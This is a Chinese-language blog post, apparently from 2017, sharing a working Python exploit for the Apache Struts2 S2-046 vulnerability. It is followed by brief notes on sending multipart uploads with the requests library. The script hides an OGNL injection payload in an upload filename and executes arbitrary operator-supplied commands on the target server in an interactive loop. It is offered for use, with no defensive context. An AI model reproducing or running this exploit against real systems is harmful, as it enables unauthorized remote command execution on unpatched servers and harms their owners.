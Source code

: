 ```yaml
---
id: 105
title: S2-046
date: 2017-08-12T12:01:04+00:00
author: bfpiaoran
layout: post
guid: http://www.cuijianxiong.top/?p=105
permalink: /?p=105
categories:
  - 未分类
---
```

上次为了一点i春秋的泉币发了s2-045 exp感觉好羞愧 这次扔到这里吧

<pre line="1">import requests

print('code by 北风飘然')
print('''
 _____   _       ___   _____   _____        ___   __   _
|  _  \ | |     /   | /  _  \ |  _  \      /   | |  \ | |
| |_| | | |    / /| | | | | | | |_| |     / /| | |   \| |
|  ___/ | |   / / | | | | | | |  _  /    / / | | | |\   |
| |     | |  / /  | | | |_| | | | \ \   / /  | | | | \  |
|_|     |_| /_/   |_| \_____/ |_|  \_\ /_/   |_| |_|  \_|
''')


def exp(url,command):
    header = {'Content-Length':'1000000000','Cache-Control':'max-age=0','Upgrade-Insecure-Requests':'1','User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36',
              'Content-Type':'multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2','Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
              }
    a = "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\x00b"
    a = a.replace('whoami',command)
    files ={"upload":(a,open('exp.txt', 'rb'),"text/plain")
    }

    r= requests.post(url, files=files)
    print(r.text)



if __name__=='__main__':
    url = input('addrs \n')
    a = 1
    while a != 'q':
        command = input('command :\n')
        exp(url,command)
</pre>

python3 == 昨天就看到poc了

想写exp没找打命令位置

还有个坑 用requests库post提交表单

response=requests.post(url,files=files)

就可以

files的格式呢

files = {‘name’: (<filename>, <file object>,<content type>, <per-part headers>)}

表单内容如下

Content-Disposition: form-data; name=’name’;filename=<filename>

Content-Type: <content type>

<file object>